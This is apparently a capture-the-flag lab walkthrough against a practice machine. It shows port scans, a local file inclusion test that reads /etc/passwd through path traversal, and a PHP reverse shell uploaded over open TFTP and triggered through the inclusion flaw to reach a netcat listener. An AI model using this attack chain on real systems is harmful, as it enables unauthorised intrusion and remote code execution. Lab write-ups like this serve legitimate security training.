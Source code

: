 # Included

|     Local    |     Remote     |
| ------------ | -------------- |
| 10.10.15.155 | 10.129.95.185  |

----

## Nmap

```
# nmap -Pn 10.129.95.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:51 EDT
Nmap scan report for 10.129.95.185
Host is up (0.044s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.86 seconds
```

```
# nmap -Pn -p 1-10000 10.129.95.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:52 EDT
Nmap scan report for 10.129.95.185
Host is up (0.045s latency).
Not shown: 9999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.51 seconds
```

## Scan UDP Ports (slow...)

```
# nmap -Pn -sU 10.129.95.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:54 EDT
Nmap scan report for 10.129.95.185
Host is up (0.28s latency).
Not shown: 980 closed udp ports (port-unreach)
PORT      STATE         SERVICE
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
772/udp   open|filtered cycleserv2
773/udp   open|filtered notify
789/udp   open|filtered unknown
1059/udp  open|filtered nimreg
1072/udp  open|filtered cardax
1214/udp  open|filtered fasttrack
3457/udp  open|filtered vat-control
17077/udp open|filtered unknown
17468/udp open|filtered unknown
19322/udp open|filtered unknown
20019/udp open|filtered unknown
20717/udp open|filtered unknown
21111/udp open|filtered unknown
28122/udp open|filtered unknown
44923/udp open|filtered unknown
49170/udp open|filtered unknown
49182/udp open|filtered unknown
62677/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1314.76 seconds

```

## Port 69: tftp (UDP)
> Trivial File Transfer Protocol (TFTP) is a simple protocol that provides basic file transfer function with no user authentication. 

Need some version information: (see man page)
```
# tftp -V 10.129.95.185         
tftp-hpa 5.3, without readline
```

## Port 80

```
# nmap -Pn -sV -sC -p 80 10.129.95.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 19:01 EDT
Nmap scan report for 10.129.95.185
Host is up (1.00s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds
```

Ran a `searchsploit Apache 2.4.29`: one priv esc that might be useful

Loaded the page in a browser (not much there). 

**Walk-Through:** ...if we take a look at the URL we can see that this has automatically changed to `http://{target_IP}/?file=home.php`. This is a common way that developers use to dynamically load pages in a website and if not programmed correctly it can often lead to the webpage being vulnerable to Local File Inclusion...

**[Local File Inclusion](../../local_file_inclusion.md)**: The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:
- Code execution on the web server
- Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
- Denial of Service (DoS)
- Sensitive Information Disclosure

LFI is the process of including files, ***that are already locally present on the server***, through the exploiting of vulnerable inclusion procedures implemented in the application.

Easy test for LFI: `http://10.129.95.185/?file=../../../../../etc/passwd` and see if you get the file contents. If you do, it's vulnerable.

Check out the /etc/passwd file on the target: 
```
# curl 'http://10.129.95.185/?file=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
[snip for space]
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```
- Note the last "user" (tftp) and the default working directory `/var/lib/tftpboot/`. 

### Upload a test file via tftp 
```
echo 'this is a test' > test.txt
tftp -4 -v 10.129.95.185 -c put test.txt
```

Load that with the LFI vulnerability in the URL: `http://10.129.95.185/?file=/var/lib/tftpboot/test.txt`
- If your text loads in the browser window, you're good.
- Continued below DirBusting...


## DirBusting 

Unnecessary. Since you can traverse the directory structure via LFI, just use the default directories in /etc/passwd as above.

```
# dirb http://10.129.95.185

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Aug 20 19:12:13 2024
URL_BASE: http://10.129.95.185/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.95.185/ ----
==> DIRECTORY: http://10.129.95.185/fonts/                                                                                                                 
==> DIRECTORY: http://10.129.95.185/images/                                                                                                                
+ http://10.129.95.185/index.php (CODE:301|SIZE:308)                                                                                                       
+ http://10.129.95.185/server-status (CODE:403|SIZE:278)                                                                                                   
                                                                                                                                                           
---- Entering directory: http://10.129.95.185/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                           
---- Entering directory: http://10.129.95.185/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Aug 20 19:16:04 2024
DOWNLOADED: 4612 - FOUND: 2
```

## Uplaod a Reverse Shell Payload

Use: [PentestMonkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell)
- Download it. Open in it VIM and change two variables (indicated with the comment `// CHANGE THIS`).
- The first variable `$ip` is the IP address of your attack machine (to receive the reverse shell).
- The second variable `$port` is the port on the attach machine you want to use to receive the reverse shell.

Upload that modified .php file to the target: 
```
# tftp -4 -v 10.129.95.185 -c put shell.php 
Connected to 10.129.95.185 (10.129.95.185), port 69
putting shell.php to 10.129.95.185:shell.php [netascii]
Sent 5689 bytes in 5.5 seconds [8225 bit/s]
```

Set up a listener on your attack machine: 
```
# nc -nlvp 1234
listening on [any] 1234 ...
```

Execute the reverse shell via the browswer URL: `http://10.129.95.185/?file=/var/lib/tftpboot/shell.php`
- Attach machine receives the reverse shell.
- User: www-data
- 
